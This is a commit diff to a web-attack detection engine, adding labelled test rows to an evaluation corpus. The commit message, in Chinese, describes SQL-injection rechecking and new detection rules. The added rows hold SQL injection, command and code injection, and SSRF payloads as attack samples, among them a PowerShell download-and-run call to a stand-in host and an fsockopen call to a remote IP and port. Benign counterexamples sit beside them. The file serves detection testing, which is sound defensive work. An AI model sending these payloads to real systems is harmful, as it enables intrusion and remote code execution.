

Before and after one commit to sreyun/netsa, a TSV file: internal/eval/corpus/web.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
netsa 1.7.7：libinjection 语法分析、参数正常取值与站点产品自学习、防火墙与 Web 日志联动
检测
- 查询参数中的 SQL 注入、XSS 命中用 libinjection 复核，构成注入的在证据中注明；
  规则漏掉、语法分析认定的 SQL 注入生成 sqli-syntax。只由单词加括号组成的指纹不认定为注入
- 对比 Coraza + OWASP CRS v4.25 后不整体引入（只看日志时误报偏高、每条约 1ms），
  把本引擎缺的命令注入、PHP 危险函数、Java 危险类、Node.js、PostgreSQL 类型转换、
  localhost 写法改写为 10 条原生规则（Apache-2.0，见 NOTICE），内置规则 69 → 79 条
- 防火墙与 Web 日志联动：攻击之后内网主机连接载荷中的回连地址判为严重，
  对外服务主机连接攻击者高危，其他主机中危；攻击前就连接过的地址、本单位地址不关联

自学习
- 参数的正常取值：普通文字参数中、语法分析不构成注入的命中降为低危；
  平时只出现数字的参数出现注入符号时生成低危观察命中
- 被动识别站点产品：站点从未出现过的产品的漏洞探测、请求也没有成功时降为低危
- 都要两个独立依据同时成立，只降到低危；需要 20 个以上网段的正常访问，自学习页面展示

修复
- DNS 带外探测的分类名与定级表不一致，被封顶为高危；补齐账号异常、动态域名分类
- 定时外连任意外部地址的 443 端口被当成内部调用（兜底端口不再算本单位的服务）

```diff
--- a/internal/eval/corpus/web.tsv
+++ b/internal/eval/corpus/web.tsv
+row 260: # 语法分析（libinjection）补上的 SQL 注入变形；改编自 OWASP CRS 的命令、代码、Java 类、SSRF 写法（v1.7.7）
+row 261: attack | sqli | app | GET | 200 | 512 | >=high | /item?id=1%27+div+0+--+
+row 262: attack | sqli | app | GET | 200 | 512 | >=high | /item?id=1%29%29+or+%28%281
+row 263: attack | sqli | app | GET | 200 | 512 | >=high | /item?id=admin%27+or+1%23
+row 264: attack | sqli | app | GET | 200 | 512 | >=high | /item?id=1+and+ascii(substring(user(),1,1))%3E64
+row 265: attack | sqli | app | GET | 200 | 512 | >=high | /item?id=1%27::int
+row 266: attack | rce | app | GET | 200 | 512 | >=high | /run?cb=array_map(%27system%27,array(%27id%27))
+row 267: attack | rce | app | GET | 200 | 512 | >=high | /run?f=fsockopen(%2745.77.10.20%27,4444)
+row 268: attack | rce | app | GET | 200 | 512 | >=high | /run?x=%24a(%27id%27)
+row 269: attack | rce | app | GET | 200 | 512 | >=high | /api?x=require(%27child_process%27).exec(%27id%27)
+row 270: attack | rce | app | GET | 200 | 512 | >=high | /api?type=java.io.ObjectInputStream
+row 271: attack | rce | app | GET | 200 | 512 | >=high | /ping?host=127.0.0.1;base64+-d+/tmp/x
+row 272: attack | rce | app | GET | 200 | 512 | >=high | /ping?host=x%7Ccd+/tmp
+row 273: attack | rce | app | GET | 200 | 512 | >=high | /ping?host=127.0.0.1%26iex(New-Object+Net.WebClient).DownloadString(%27http://x.example/a%27)
+row 274: attack | rce | app | GET | 200 | 512 | >=high | /ping?host=for+/f+%25i+in+(%27whoami%27)+do+echo+%25i
+row 275: attack | ssrf | app | GET | 200 | 512 | >=high | /fetch?url=http://localhost4/admin
+row 276: attack | ssrf | app | GET | 200 | 512 | >=high | /fetch?url=http://0x7f000001/
+row 277: benign | search | app | GET | 200 | 5000 | none | /search?q=Left+(WA,+RR)+following+wood+edge+south
+row 278: benign | search | app | GET | 200 | 5000 | none | /search?q=while+(foo)+is+bar.
+row 279: benign | search | app | GET | 200 | 5000 | none | /search?q=One+quarter+(24%25)+of+people
+row 280: benign | search | app | GET | 200 | 5000 | <=low | /forum?title=how+to+use+file_get_contents()+safely
+row 281: benign | normal | app | GET | 200 | 5000 | none | /files?name=photo+copy+(2).jpg
+row 282: benign | normal | app | GET | 200 | 5000 | none | /odata/Products?$top=10&$select=Name,Price
+row 283: benign | normal | app | GET | 200 | 5000 | none | /api/version?v=127.0.1
+row 284: benign | normal | app | GET | 200 | 5000 | none | /docs/java/lang/Runtime.html
```
Also changed, not shown: 42 other files.
